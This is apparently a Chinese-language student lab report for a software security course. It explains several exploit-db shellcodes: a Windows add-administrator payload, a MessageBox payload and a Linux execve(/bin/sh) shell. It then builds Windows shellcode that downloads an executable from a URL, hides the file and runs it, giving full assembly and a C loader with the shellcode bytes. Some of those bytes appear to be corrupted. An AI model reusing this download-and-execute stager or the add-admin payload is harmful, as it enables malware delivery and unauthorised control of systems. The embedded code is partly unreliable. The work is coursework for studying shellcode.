







ShellCode
---
## 实验要求：
- 详细阅读 www.exploit-db.com 中的shellcode。建议找不同功能的，不同平台的 3-4个shellcode解读。
- 修改示例代码的shellcode，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA
其中第二个作业，原参考代码只调用了一个API函数，作业要求调用更多的API函数了，其中涉及到的参数也更复杂，但是原理是相通的。URLDownloadToFileA函数在 Urlmon.dll 这个dll中，这个dll不是默认加载的，所以可能还需要调用LoadLibrary函数。
## 实验环境：
- win10
- Ubuntu-16-server
## 实验过程：
### shellcode解读：  
- 01 [Windows/x64 - WinExec Add-Admin Dynamic Null-Free Shellcode](https://www.exploit-db.com/shellcodes/48252)
    - 该shellcode是一个运行在windows x64环境下添加管理用户的代码；
    - 下载代码后，写入.c文件，修改主函数，将访问内存的属性改为可读可写可执行： 
     
    ```
    int main(int argc, char** argv)
    {
    int (*func)();
    DWORD dwOldProtect;
    VirtualProtect(code, sizeof(code), PAGE_EXECUTE_READWRITE, &dwOldProtect);
    func = (int(*)()) code;
    (int)(*func)();
    }
    
    ```
    - 在Debug目录下找到对应的exe文件，使用管理员权限运行：  
      
    - 查看结果：  
      
    - 代码解析：  
  - 获取 kernel32.dll 的地址，并压入栈中
    ```
    get_kernel32_address:
    ...
    mov eax, [eax+0x8]     ; EAX = &Kernel32.dll
    push eax
    ```
   - 获取 kernel32.dll 的导出表地址，存储在 EBX 中
    ```
    get_kernel32_export_table:
    ...
    add ebx, eax        ; EBX = &ExportTable
    ```
  - 根据导出表地址，获取导出名字表的地址，存储在 EDX 中
    ```
    get_export_name_table:
    mov edx, [ebx+0x20] ; EDX = RVA ExportNameTable
    add edx, eax        ; EDX = &ExportNameTable
    ```
  - 根据导出表地址，获取导出序号列表的地址，并压入栈中
    ```
    get_export_ordinal_table:
    mov ecx, [ebx+0x24] ; ECX = RVA ExportOrdinalTable
    add ecx, eax        ; ECX = &ExportOrdinalTable
    push ecx
    ```
  - 根据导出表地址，获取导出地址表的地址，并压入栈中
  - 将`WinExec`函数名字符串压入栈中
    ```
    WinExec_String:
    push 0x456E6957 ; EniW
    ```
  - 在导出名字表里查找`WinExec`函数名，找到后获取函数地址，并存储在 EBX 中
  - 添加用户操作，将命令字符串压入栈中，调用`WinExec`函数打开命令行，使用命令行执行命令
 
- 02 [Windows - MessageBox + Null-Free Shellcode (113 bytes)](https://www.exploit-db.com/shellcodes/28996)  
    - 该shellcode是一个运行在windows x64环境下出现弹框的代码；
    - 下载代码后，写入.c文件，修改主函数，将访问内存的属性改为可读可写可执行： 
     
    ```
    int main(int argc, char** argv)
    {
    int(*func)();
	DWORD dwOldProtect;
	func = (int(*)()) shellcode;
	VirtualProtect(func, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &dwOldProtect);
	(int)(*func)();
    }
    
    ```
    - 运行结果，成功弹出弹框：  
      
    - 代码解析： 
    - 反汇编代码： 
 ```
    int main(int argc, char **argv) 
    
{
00CA16D0 55                   push        ebp  
00CA16D1 8B EC                mov         ebp,esp  
00CA16D3 81 EC DC 00 00 00    sub         esp,0DCh  
00CA16D9 53                   push        ebx  
00CA16DA 56                   push        esi  
00CA16DB 57                   push        edi  
00CA16DC 8D BD 24 FF FF FF    lea         edi,[ebp-0DCh]  
00CA16E2 B9 37 00 00 00       mov         ecx,37h  
00CA16E7 B8 CC CC CC CC       mov         eax,0CCCCCCCCh  
00CA16EC F3 AB                rep stos    dword ptr es:[edi]  
00CA16EE A1 88 90 CA 00       mov         eax,dword ptr [__security_cookie (0CA9088h)]  
00CA16F3 33 C5                xor         eax,ebp  
00CA16F5 89 45 FC             mov         dword ptr [ebp-4],eax  
	int(*func)();
	DWORD dwOldProtect;
	func = (int(*)()) shellcode;
00CA16F8 C7 45 F4 00 90 CA 00 mov         dword ptr [func],offset shellcode (0CA9000h)  
	VirtualProtect(func, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &dwOldProtect);
00CA16FF 8B F4                mov         esi,esp  
00CA1701 8D 45 E8             lea         eax,[dwOldProtect]  
00CA1704 50                   push        eax  
00CA1705 6A 40                push        40h  
00CA1707 6A 72                push        72h  
00CA1709 8B 4D F4             mov         ecx,dword ptr [func]  
00CA170C 51                   push        ecx  
00CA170D FF 15 00 A0 CA 00    call        dword ptr [__imp__VirtualProtect@16 (0CAA000h)]  
00CA1713 3B F4                cmp         esi,esp  
00CA1715 E8 08 FA FF FF       call        __RTC_CheckEsp (0CA1122h)  
	(int)(*func)();
00CA171A 8B F4                mov         esi,esp  
00CA171C FF 55 F4             call        dword ptr [func]  
00CA171F 3B F4                cmp         esi,esp  
00CA1721 E8 FC F9 FF FF       call        __RTC_CheckEsp (0CA1122h)  
}
00CA1726 33 C0                xor         eax,eax  
00CA1728 52                   push        edx  
00CA1729 8B CD                mov         ecx,ebp  
00CA172B 50                   push        eax  
00CA172C 8D 15 58 17 CA 00    lea         edx,ds:[0CA1758h]  
00CA1732 E8 26 FB FF FF       call        @_RTC_CheckStackVars@8 (0CA125Dh)  
00CA1737 58                   pop         eax  
00CA1738 5A                   pop         edx  
00CA1739 5F                   pop         edi  
00CA173A 5E                   pop         esi  
00CA173B 5B                   pop         ebx  
00CA173C 8B 4D FC             mov         ecx,dword ptr [ebp-4]  
00CA173F 33 CD                xor         ecx,ebp  
00CA1741 E8 2B FB FF FF       call        @__security_check_cookie@4 (0CA1271h)  
00CA1746 81 C4 DC 00 00 00    add         esp,0DCh  
}
00CA174C 3B EC                cmp         ebp,esp  
00CA174E E8 CF F9 FF FF       call        __RTC_CheckEsp (0CA1122h)  
00CA1753 8B E5                mov         esp,ebp  
00CA1755 5D                   pop         ebp  
00CA1756 C3                   ret  
00CA1757 90                   nop  
00CA1758 01 00                add         dword ptr [eax],eax  
00CA175A 00 00                add         byte ptr [eax],al  
00CA175C 60                   pushad  
00CA175D 17                   pop         ss  
00CA175E CA 00 E8             retf        0E800h  
00CA1761 ??                   ?? ?? 
00CA1762 ??                   ?? ?? 
00CA1763 FF 04 00             inc         dword ptr [eax+eax]  
00CA1766 00 00                add         byte ptr [eax],al  
00CA1768 6C                   ins         byte ptr es:[edi],dx  
00CA1769 17                   pop         ss  
00CA176A CA 00 64             retf        6400h  
00CA176D 77 4F                ja          _RTC_AllocaHelper+0Eh (0CA17BEh)  
00CA176F 6C                   ins         byte ptr es:[edi],dx  
00CA1770 64 50                push        eax  
00CA1772 72 6F                jb          @_RTC_AllocaHelper@12+33h (0CA17E3h)  
00CA1774 74 65                je          _RTC_AllocaHelper+2Bh (0CA17DBh)  
00CA1776 63 74 00 CC          arpl        word ptr [eax+eax-34h],si  
 ```
 - 代码基本逻辑：  
     - 先找到 Kernel32.dll，再push MessageBox()及其参数，call调用，如果需要退出，再加载Exit（本实例无）。
 - 03 [Linux/x86_64 - execve(/bin/sh) Shellcode](https://www.exploit-db.com/shellcodes/47008)
     - 该shellcode文件主要是在ubuntu系统下调用/bin/sh的代码
     - 打开虚拟机，新建shell.c文件，将上述链接中的代码写入其中：  
       
     - 使用`gcc -fno-stack-protector -z execstack shell.c -o shell`将 C 语言文件编译链接成可执行文件
     - 使用`./shell`运行，将会调用`/bin/sh`  
       
     - 代码解析：  
  ```
         ;int execve(const char *filename, char *const argv[],char *const envp[])
	xor 	rsi,	rsi			;clear rsi
	push	rsi				;push null on the stack
	mov 	rdi,	0x68732f2f6e69622f	 ;/bin//sh in reverse order
	push	rdi
	push	rsp		
	pop	rdi				;stack pointer to /bin//sh
	mov 	al,	59			;sys_execve
	cdq					;sign extend of eax
	syscall
````
   - 汇编源代码较短，主要是参数入栈，调用execve函数，其中最主要的是系统函数的调用，需要使用对应的数字。  
### 编写下载执行程序的shellcode：  
- 修改[示例代码](https://www.exploit-db.com/shellcodes/40094)，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序：
- 此处的实验以下载QQ为例：  
  
- 将下载网址`https://down.qq.com/qqweb/PCQQ/PCQQ_EXE/PCQQ2020.exe`转化为十六进制
```
0x6578652e  // exe.
0x30323032  // 0202
0x51514350  // QQCP
0x2f455845  // /EXE
0x5f515143  // _QQC
0x502f5151  // P/QQ
0x43502f62  // CP/b
0x65777171  // ewqq
0x2f6d6f63  // /moc
0x2e71712e  // .qq.
0x6e776f64  // nwod
0x2f2f3a73  // //:s
0x70747468  // ptth
```
- 找到kernel32的基地址
```
xor ecx,ecx
mov eax,[fs:ecx+0x30] ;Eax=PEB
mov eax,[eax+0xc] ;eax=PEB.Ldr
mov esi,[eax+0x14] ;esi=PEB.Ldr->InMemOrderModuleList
lodsd 
xchg esi,eax
lodsd
mov ecx,[eax+0x10] ;ecx=kernel32.dll base address

;mov ebx,[ecx+0x3c] ;kernel32.dll +0x3c=DOS->e_flanew
add ebx,ecx ;ebx=PE HEADER
mov ebx,[ebx+0x78];Data_DIRECTORY->VirtualAddress
add ebx,ecx ;IMAGE_EXPORT_DIRECTORY

mov esi,[ebx+0x20] ;AddressOfNames
add esi,ecx
```
- 找到GetProcAddress
```
or edx,edx

count:
inc edx
lodsd
add eax,ecx
cmp dword [eax],'GetP'
jnz count
cmp dword [eax+4],'rocA'
jnz count
cmp dword [eax+8],'ddre'
jnz count

;---------------------------------------------

mov esi,[ebx+0x1c] ;AddressOfFunctions
add esi,ecx

mov edx,[esi+edx*4]
add edx,ecx ;edx=GetProcAddress()

;-----------------------------------------

xor esi,esi
mov esi,edx ;GetProcAddress()
mov edi,ecx ;kernel32.dll
```
- 使用GetProcAddress确定LoadLibrary函数地址
```
;------------------------------------
;finding address of LoadLibraryA()
xor eax,eax
push eax
push 0x41797261
push 0x7262694c
push 0x64616f4c

push esp
push ecx

call edx

;------------------------
add esp,12

```
- 使用`LoadLibrary`加载加载urlmon.dll
```
;-----------------------------

;LoadLibraryA("urlmon.dll")
xor ecx,ecx

push 0x41416c6c
mov [esp+2],byte cl
push 0x642e6e6f
push 0x6d6c7275

push esp
call eax

;-----------------------

add esp,12
```
- 获得`URLDownloadToFileA`入口
```
;-----------------------
;finding address of URLDownloadToFileA()
xor ecx,ecx
push 0x42424165
mov [esp+2],byte cl
push 0x6c69466f
push 0x5464616f
push 0x6c6e776f
push 0x444c5255

push esp
push eax
call esi

;------------------------
add esp,20
push eax 
```
- 开始下载文件
```
;URLDownloadToFileA(NULL,url,save as,0,NULL)
download:
pop eax
xor ecx,ecx
push ecx

;-----------------------------
;change it to file url

0x6578652e  ; exe.
0x30323032  ; 0202
0x51514350  ; QQCP
0x2f455845  ; /EXE
0x5f515143  ; _QQC
0x502f5151  ; P/QQ
0x43502f62  ; CP/b
0x65777171  ; ewqq
0x2f6d6f63  ; /moc
0x2e71712e  ; .qq.
0x6e776f64  ; nwod
0x2f2f3a73  ; //:s
0x70747468  ; ptth
;-----------------------------------


push esp 
pop ecx ;https://down.qq.com/qqweb/PCQQ/PCQQ_EXE/PCQQ2020.exe

xor ebx,ebx
push ebx
;save as (no need change it.if U want to change it,do it)
push 0x6578652e
push 0x646c7970
;-------------------------------
push esp ;pyld.exe
pop ebx ;save as

xor edx,edx
push eax
push edx
push edx
push ebx
push ecx
push edx

call eax

;-------------------------

pop ecx
add esp,44
xor edx,edx
cmp eax,edx
push ecx
jnz download ;if it fails to download , retry contineusly
;------------------
pop edx
```
- 找到`SetFileAttributesA()`地址
```
;-----------------------
;Finding address of SetFileAttributesA()
xor edx,edx


push 0x42424173
mov [esp+2],byte dl
push 0x65747562
push 0x69727474
push 0x41656c69
push 0x46746553

push esp
push edi

call esi

;--------------------------------

add esp,20 ;U must adjust stack or it will crash
```
- 调用`SetFileAttributesA()`
```
;--------------------
;calling SetFileAttributesA("python.exe",FILE_ATTRIBUTE_HIDDEN) 
xor ecx,ecx
push ecx
push 0x6578652e
push 0x646c7970

push esp
pop ecx

xor edx,edx
add edx,2 ;FILE_ATTRIBUTE_HIDDEN

push edx
push ecx

call eax

;-------------------

add esp,8
```
- 找到`WinExec()`函数地址
```
;---------------------------

;finding address of WinExec()
xor ecx,ecx

push 0x41636578
mov [esp+3],byte cl
push 0x456e6957

push esp
push edi
call esi

;----------------------

add esp,8

```
- 执行函数
```
;------------------------
;calling WinExec("PCQQ2020.exe",0)
xor ecx,ecx
push ecx
0x6578652e  ; exe.
0x30323032  ; 0202
0x51514350  ; QQCP

push esp
pop ecx

xor edx,edx
push edx
push ecx

call eax
;-------------------------

add esp,8
```
- 结束进程
```
;-----------------------------

;finding address of ExitProcess()
xor ecx,ecx
push 0x41737365
mov [esp+3],byte cl
push 0x636f7250
push 0x74697845

push esp
push edi

call esi

;--------------
call eax


```

- 修改.c文件:  

```

#include<stdio.h>
#include<string.h>
#include <windows.h>


char shellcode[] = 
"\x31\xc9\x64\x8b\x41\x30\x8b\x40\x0c\x8b\x70\x14\xad\x96\xad\x8b\x48\x10\x8b\x59\x3c\x01\xcb\x8b\x5b\x78\x01\xcb\x8b\x73\x20\x01\xce\x31\xd2\x42\xad\x01\xc8\x81\x38\x47\x65\x74\x50\x75\xf4\x81\x78\x04\x72\x6f\x63\x41\x75\xeb\x81\x78\x08\x64\x64\x72\x65\x75\xe2\x8b\x73\x1c\x01\xce\x8b\x14\x96\x01\xca\x31\xf6\x89\xd6\x89\xcf\x31\xc0\x50\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\x51\xff\xd2\x83\xc4\x0c\x31\xc9\x68\x6c\x6c\x41\x41\x88\x4c\x24\x02\x68\x6f\x6e\x2e\x64\x68\x75\x72\x6c\x6d\x54\xff\xd0\x83\xc4\x0c\x31\xc9\x68\x65\x41\x42\x42\x88\x4c\x24\x02\x68\x6f\x46\x69\x6c\x68\x6f\x61\x64\x54\x68\x6f\x77\x6e\x6c\x68\x55\x52\x4c\x44\x54\x50\xff\xd6\x83\xc4\x14\x50\x58\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x32\x30\x32\x30\x68\x50\x43\x51\x51\x68\x45\x58\x45\x2f\x68\x43\x51\x51\x5f\x68\x51\x51\x2f\x50\x68\x62\x2f\x50\x43\x68\x71\x71\x77\x65\x86\x63\x6f\x6d\x2f\x86\x2e\x71\x71\x2e\x86\x64\x6f\x77\x6e\x86\x73\x3a\x2f\x2f\x86\x68\x74\x74\x70\x54\x59\x31\xdb\x53\x68\x2e\x65\x78\x65\x68\x70\x79\x6c\x64\x54\x5b\x31\xd2\x50\x52\x52\x53\x51\x52\xff\xd0\x59\x83\xc4\x2c\x31\xd2\x39\xd0\x51\x75\xae\x5a\x31\xd2\x68\x73\x41\x42\x42\x88\x54\x24\x02\x68\x62\x75\x74\x65\x68\x74\x74\x72\x69\x68\x69\x6c\x65\x41\x68\x53\x65\x74\x46\x54\x57\xff\xd6\x83\xc4\x14\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x32\x30\x32\x30\x68\x50\x43\x51\x51\x54\x59\x31\xd2\x83\xc2\x02\x52\x51\xff\xd0\x83\xc4\x08\x31\xc9\x68\x78\x65\x63\x41\x88\x4c\x24\x03\x68\x57\x69\x6e\x45\x54\x57\xff\xd6\x83\xc4\x08\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x32\x30\x32\x30\x68\x50\x43\x51\x51\x54\x59\x31\xd2\x52\x51\xff\xd0\x83\xc4\x08\x31\xc9\x68\x65\x73\x73\x41\x88\x4c\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x54\x57\xff\xd6\xff\xd0";

int main(int argc, char **argv) 
{
	int(*func)();
	DWORD dwOldProtect;
	func = (int(*)()) shellcode;
	VirtualProtect(func, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &dwOldProtect);
	(int)(*func)();
}
```
- 实验结果：  
  


## 参考资料：
- [实验报告](https://github.com/Great-Lin999/SoftwareAndSystemSecurity/blob/master/ShellCode/ShellCode.md)
- [实验报告](https://github.com/YanhuiJessica/2020-SSS-Public-YanhuiJessica/blob/master/lab0x05%20Shellcode/README.md)